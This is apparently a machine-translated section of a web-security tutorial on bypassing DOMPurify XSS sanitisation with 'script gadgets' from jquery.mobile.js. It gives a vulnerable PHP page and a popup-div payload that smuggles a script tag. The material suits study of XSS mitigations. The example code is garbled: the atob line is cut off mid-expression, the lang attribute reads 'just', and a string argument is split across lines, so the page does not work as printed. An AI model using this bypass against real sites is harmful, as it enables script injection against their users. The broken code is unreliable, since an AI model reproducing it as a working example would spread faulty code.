 Bypass Via Script Gadgets
================================

Introduction
--------------------------------
Some websites use whitelists or some DOM-based defense methods. For these methods, there is an attack method called "Code Reuse" that can be bypassed. This method is similar to Gadget in binary offense and defense, using legitimate code in the target to bypass defense measures. There is a specific description of this method in the paper ``Code-Reuse Attacks for the Web: Breaking Cross-Site Scripting Mitigations via Script Gadgets`.

A blog post by portswigger also expressed similar ideas ``https://portswigger.net/blog/abusing-javascript-frameworks-to-bypass-xss-mitigations``.

Here is a simple example. This example uses ``DOMPurify`` to reinforce, but it can be attacked because of the introduction of ``jquery.mobile.js``.

example
--------------------------------
::

// index.php
<?php

$msg = $_GET['message'];
$msg = str_replace("
", "", $msg);
$msg = base64_encode($msg);

?>

<!DOCTYPE html>
<html just= "en">
<head>
<meta charset="UTF-8">
<title>Preview</title>
<script type="text/javascript" src="purify.js"></script>
<script type="text/javascript" src="jquery.js"></script>
<script type="text/javascript" src="jquery.mobile.js"></script>
</head>
<body>

<script type="text/javascript">
var d= atob(<
var cleanvar = DOMPurify.sanitize(d);
document.write(cleanvar);
</script>

</body>
</html>


::

// payload
<div data-role=popup id='-->
<script>alert(1)</script>'>
</div>
